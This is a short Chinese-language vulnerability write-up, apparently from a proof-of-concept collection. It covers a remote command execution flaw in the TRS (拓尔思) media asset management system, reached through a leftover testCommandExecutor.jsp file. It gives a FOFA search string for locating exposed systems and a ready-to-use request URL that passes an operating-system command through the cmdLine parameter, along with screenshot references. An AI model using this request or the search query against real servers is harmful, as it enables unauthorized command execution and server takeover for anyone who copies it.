 # 拓尔思 TRS testCommandExecutor.jsp 远程命令执行漏洞

## 漏洞描述

拓尔思 TRS testCommandExecutor.jsp测试文件存在远程命令执行漏洞，当网站运维者未删除测试文件时，攻击者通过漏洞可以获取服务器权限

## 漏洞影响

```
拓尔思-TRS
```

## FOFA

```
"TRS媒资管理系统登录页面"
```

## 漏洞复现

主页面

![image-20230314084307993](images/image-20230314084307993.png)

验证POC

```
/mas/front/vod/main.do?method=newList&view=forward:/sysinfo/testCommandExecutor.jsp&cmdLine=dir&workDir=&pathEnv=&libPathEnv=
```

![image-20230314084331676](images/image-20230314084331676.png)